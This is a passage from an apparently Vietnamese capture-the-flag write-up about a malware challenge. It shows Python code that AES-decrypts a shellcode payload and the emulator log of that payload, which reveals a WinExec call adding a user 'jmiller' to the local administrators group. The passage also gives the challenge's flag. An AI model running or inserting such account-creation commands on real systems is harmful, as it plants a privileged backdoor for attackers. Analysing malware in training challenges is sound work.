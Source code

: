 ```
iv = data[:16]
#print("iv", iv)
ciphertext = data[16:]
cipher = AES.new(key_update, AES.MODE_CBC, iv=iv)
plaintext =  unpad(cipher.decrypt(ciphertext), 16)
f = open('decrypt','wb')
f.write(plaintext)

``` 
- Tiếp theo để debug shell code này ta dùng công cụ `sclog.exe` 
```
Loading Shellcode into memory
Shellcode buffer: 0x11000000 - 0x11000139  (sz=0x139)
Starting up winsock
Installing Hooks
Executing Buffer...

_ret_____API_________________
  B4 Skipping WinExec( net user jmiller "HTB{00000ps_1_t0t4lly_f0rg0t_1t}" /add; net localgroup administrators jmiller /add,1)
```
> Flag : HTB{00000ps_1_t0t4lly_f0rg0t_1t}
